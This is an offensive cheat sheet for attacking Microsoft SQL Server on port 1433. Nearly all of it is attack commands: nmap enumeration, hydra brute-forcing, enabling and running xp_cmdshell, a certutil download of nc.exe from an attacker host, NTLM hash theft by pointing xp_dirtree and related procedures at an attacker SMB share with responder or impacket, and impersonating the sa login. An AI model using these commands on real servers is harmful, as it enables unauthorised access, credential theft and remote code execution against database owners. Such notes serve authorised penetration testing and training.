 # MSSQL \[1433]

## Enumeration <a href="#get-information" id="get-information"></a>

```shell-session
nmap -Pn -sV -sC -p1433 10.10.10.125
```

## Get information <a href="#get-information" id="get-information"></a>

```
nmap --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER -sV -p 1433 <IP>
```

## Brute force <a href="#brute-force-5" id="brute-force-5"></a>

```
hydra -L <USERS_LIST> -P <PASSWORDS_LIST> <IP> mssql -vV -I -u
```

## Having credentials <a href="#having-credentials" id="having-credentials"></a>

```
mssqlclient.py -windows-auth <DOMAIN>/<USER>:<PASSWORD>@<IP>
mssqlclient.py <USER>:<PASSWORD>@<IP>

# Once logged in you can run queries:
SQL> select @@ version;

# Steal NTLM hash
sudo smbserver.py -smb2support liodeus .
SQL> exec master..xp_dirtree '\\<IP>\liodeus\' # Steal the NTLM hash, crack it with john or hashcat

# Try to enable code execution
SQL> enable_xp_cmdshell

# Execute code
SQL> xp_cmdshell whoami /all
SQL> xp_cmdshell certutil.exe -urlcache -split -f http://<IP>/nc.exe
```

`MSSQL` default system schemas/databases:

* `master` - keeps the information for an instance of SQL Server.
* `msdb` - used by SQL Server Agent.
* `model` - a template database copied for each new database.
* `resource` - a read-only database that keeps system objects visible in every database on the server in sys schema.
* `tempdb` - keeps temporary objects for SQL queries.

## command execution

**XP\_CMDSHELL**

```cmd-session
1> xp_cmdshell 'whoami'
2> GO

output
-----------------------------
no service\mssql$sqlexpress
NULL
(2 rows affected)
```

To enable xp\_cmdshell follow the following steps.

```
-- To allow advanced options to be changed.  
EXECUTE sp_configure 'show advanced options', 1
GO

-- To update the currently configured value for advanced options.  
RECONFIGURE
GO  

-- To enable the feature.  
EXECUTE sp_configure 'xp_cmdshell', 1
GO  

-- To update the currently configured value for this feature.  
RECONFIGURE
GO
```

{% hint style="info" %}
`xp_regwrite` is used to elevate privileges by creating new entries in the Windows registry
{% endhint %}

### Exploring database

<table><thead><tr><th width="339">Commands</th><th>Description</th></tr></thead><tbody><tr><td><code>SELECT name FROM master.dbo.sysdatabases</code></td><td>List all the databases.</td></tr><tr><td><code>USE &#x3C;database></code></td><td>select the database from available databases.</td></tr><tr><td>SELECT table_name FROM &#x3C;database>.INFORMATION_SCHEMA.TABLES</td><td>List all the tables.</td></tr><tr><td><code>SELECT &#x3C;column1>, &#x3C;column2> FROM &#x3C;table>;</code></td><td>print out all the vlaues from the table and columns specified.</td></tr><tr><td>SELECT * FROM &#x3C;table> WHERE &#x3C;column> = "&#x3C;str>"</td><td>list contents where search item is located.</td></tr></tbody></table>

> type GO after each command

## PrivEsc

**Impersonating the SA User**

```cmd-session
1> EXECUTE AS LOGIN = 'sa'
2> SELECT SYSTEM_USER
3> SELECT IS_SRVROLEMEMBER('sysadmin')
4> GO

-----------
sa

(1 rows affected)

-----------
          1

(1 rows affected)
```

## Steal NetNTLM hash / Relay attack

You should start a **SMB server** to capture the hash used in the authentication (`impacket-smbserver` or `responder` for example).

```bash
xp_dirtree '\\<attacker_IP>\any\thing'
exec master.dbo.xp_dirtree '\\<attacker_IP>\anything'
EXEC master..xp_subdirs '\\<attacker_IP>\anything\'
EXEC master..xp_fileexist '\\<attacker_IP>\anything\'

# Capture hash
sudo responder -I tun0
sudo impacket-smbserver share ./ -smb2support
msf> use auxiliary/admin/mssql/mssql_ntlm_stealer
```
